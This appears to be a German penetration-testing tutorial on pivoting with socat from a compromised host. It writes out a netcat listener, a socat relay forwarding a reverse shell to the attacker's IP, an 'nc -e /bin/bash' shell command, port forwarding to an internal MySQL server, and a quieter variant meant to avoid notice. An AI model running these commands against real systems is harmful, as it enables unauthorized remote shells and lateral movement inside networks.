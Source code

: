 **Reverse Shell Relay mit Socat**

Dann erstellen wir mal ein Relay, dass ne Rev Shell zu uns weiterleitet. 

Wir starten auf unserem System einen Netcat Listener auf Port 443

>sudo nc -lvnp 443

Danach starten wir auf dem gehackten System das Socat Relay mit:

>socat tcp-l:8000 tcp:Unsere-IP:443 &

Okay was passiert hier? Das Relay hört auf dem Port 8000. Wenn was reinkommt, leitet es dies weiter an unsere Maschine auf Port 443. Das &-Zeichen lässt das ganze im Hintergrund verschwinden, sodass wir weiter die Shell nutzen können.

Wir können das easy simulieren, wenn wir einfach auf dem System eine Netcat Verbindung loopbacken auf Port 8000.

>nc 127.0.0.1 8000 -e /bin/bash

Jetzt haben wir im Prinzip das gemacht, was oben auf dem Bild zu sehen ist.

---
**Port Forwarding mit Socat - Easy**

Der schnellste und einfachste Weg ein Port Forwarding zu realisieren ist das öffnen eines Listener Ports auf dem gehackten System und alles was durch diesen Port reinkommt an das Zielsystem weiterzuleiten.

Wenn der kompromittierte Server beispielsweise 172.16.0.5 ist und das Ziel Port 3306 von 172.16.0.10 ist, könnten wir den folgenden Befehl (auf dem kompromittierten Server) verwenden, um eine Portweiterleitung zu erstellen:

>./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &

Dadurch wird Port 33060 auf dem kompromittierten Server geöffnet und die Eingaben von der angreifenden Maschine direkt auf den vorgesehenen Zielserver umgeleitet, was uns im Wesentlichen Zugriff auf die (vermutlich MySQL-Datenbank) verschafft, die auf unserem Ziel 172.16.0.10 läuft. Die fork-Option wird verwendet, um jede Verbindung in einen neuen Prozess zu stellen, und die reuseaddr-Option bedeutet, dass der Port offen bleibt, nachdem eine Verbindung zu ihm hergestellt wurde. In Kombination ermöglichen sie es uns, denselben Port für mehr als eine Verbindung weiterzuleiten. Erneut verwenden wir &, um die Shell im Hintergrund zu betreiben, sodass wir weiterhin dieselbe Terminalsitzung auf dem kompromittierten Server für andere Dinge verwenden können.

Wir können jetzt eine Verbindung zu Port 33060 auf dem Relay (172.16.0.5) herstellen und unsere Verbindung direkt an unser beabsichtigtes Ziel 172.16.0.10:3306 weiterleiten lassen.

---
**Port Forwarding mit Socat - Quiet**

Die Easy Methode ist zwar schnell und leicht, aber sie öffnet nunmal einen Port auf dem Host, daher ist es eventuell auffällig. Daher gibt es noch eine andere Möglichkeit die nur minimal schwieriger ist:

Wir führen auf unserer Angreifer Maschine folgendes aus:

>socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

Dadurch werden zwei Ports geöffnet: 8000 und 8001, wodurch ein lokales Port-Relay entsteht. Was in das eine hineingeht, kommt auch aus dem anderen wieder heraus. Aus diesem Grund sind für Port 8000 auch die Optionen fork und reuseaddr festgelegt, damit wir über diesen Port Forward mehr als eine Verbindung erstellen können.
